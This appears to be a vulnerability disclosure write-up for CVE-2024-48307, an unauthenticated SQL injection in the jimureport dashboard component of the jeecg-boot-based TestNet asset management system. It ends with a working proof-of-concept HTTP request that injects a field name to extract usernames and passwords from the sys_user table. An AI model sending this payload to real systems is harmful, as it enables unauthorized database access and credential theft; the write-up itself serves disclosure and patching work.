 ## 0x01 Introduction
TestNet Asset Management system is designed to provide comprehensive and efficient Internet asset management and monitoring services, and build a detailed asset information base. TestNet is based on jeecg-boot, and SQL injection vulnerability exists in CVE-2024-48307, which affects TestNet

## 0x02 Vulnerability Overview
TestNet/computer/onlDragDatasetHead/SQL injection vulnerabilities are unauthorized getTotalData interface. An attacker can use jimureport-dashboard-spring-boot-starter-1.8.1-beta.jar without permission to query the database, resulting in database information leakage.

## 0x03 Vulnerability version
<font style="color:rgb(31, 35, 40);">jimureport-dashboard-spring-boot-starter-1.8.1-beta.jar <= 1.8.1</font>

## 0x04 Environment Setup
Source code: [https://github.com/testnet0/testnet](https://github.com/testnet0/testnet)

## 0x05 The vulnerability reappears
jimureport-dashboard-spring-boot-starter\1.8.0-beta\jimureport-dashboard-spring-boot-starter-1.8.0-beta.jar!\org\jeecg\modules\drag\b\d.class

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1732696004228-2b7bad0c-9a7d-4e97-88f8-a8ea054a19e1.png)

poc

```plain
POST /jeecgboot/drag/onlDragDatasetHead/getTotalData HTTP/1.1
Host: 192.168.187.129:8099
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Length: 311
Content-Type: application/json

{"tableName": "sys_user", "compName": "test", "condition": {"filter": {}}, "config": {"assistValue": [], "assistType": [], "name": [{"fieldName": "concat(username,0x3a,password)", "fieldType": "string"}, {"fieldName": "id", "fieldType": "string"}], "value": [{"fieldName": "id", "fieldType": "1"}], "type": []}}
```

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1732694106006-084e7a33-06de-45b6-9c01-3ff0199a66c7.png)

